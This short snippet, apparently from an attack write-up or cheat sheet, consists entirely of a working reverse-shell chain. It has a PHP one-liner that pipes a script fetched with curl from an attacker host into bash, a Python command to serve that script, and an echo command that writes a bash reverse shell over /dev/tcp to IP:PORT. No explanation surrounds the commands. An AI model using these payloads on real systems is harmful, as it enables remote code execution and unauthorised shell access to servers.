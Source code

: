 
```php
<?php system("curl IP:PORT/rev.sh|bash"); ?>
```

```bash
python3 -m http.server PORT
```

```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/IP/PORT 0>&1' > rev.sh
```

